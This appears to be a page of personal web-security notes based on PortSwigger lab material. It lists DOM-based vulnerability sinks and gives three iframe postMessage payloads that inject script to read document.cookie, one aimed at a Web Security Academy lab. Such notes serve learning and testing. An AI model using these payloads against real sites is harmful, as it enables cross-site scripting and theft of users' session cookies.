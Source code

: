 Sink related to vulnerabilites are (thanks to portswigger):

DOM-based vulnerability | Example sink
:----: | :----:
DOM XSS  | `document.write()`
Open redirection | `window.location`
Cookie manipulation | `document.cookie`
JavaScript injection | `eval()`
Document-domain manipulation | `document.domain`
WebSocket-URL poisoning | `WebSocket()`
Link manipulation | `someElement.src`
Web-message manipulation | `postMessage()`
Ajax request-header manipulation | `setRequestHeader()`
Local file-path manipulation | `FileReader.readAsText()`
Client-side SQL injection | `ExecuteSql()`
HTML5-storage manipulation | `sessionStorage.setItem()`
Client-side XPath injection | `document.evaluate()`
Client-side JSON injection | `JSON.parse()`
DOM-data manipulation | `someElement.setAttribute()`
Denial of service | `RegExp()`


There is also DOM clobbering, same goal, different approach, your goal here is to inject HTML and then perform DOM basis

#### Some examples



- Web messages
	
	Here you are in the situation where your page contained an `addEventListener` and wait for an input
	
	You can put the following message: 
	
	```html
	<iframe src="WEBSITE" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(document.cookie)>','\*')">
	```
	
	OR
	
	```html
	<iframe src="WEBSITE" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','\*')">
	```
	
	OR 
	
	```<iframe src=https://your-lab-id.web-security-academy.net/ onload='this.contentWindow.postMessage("{\\"type\\":\\"load-channel\\",\\"url\\":\\"javascript:alert(document.cookie)\\"}","\*")'>
	```
	
	Base your payload on the method use to upload a message.
	
	The iframe will post the message and dump it on the page, you will be able to get the cookie that way
	
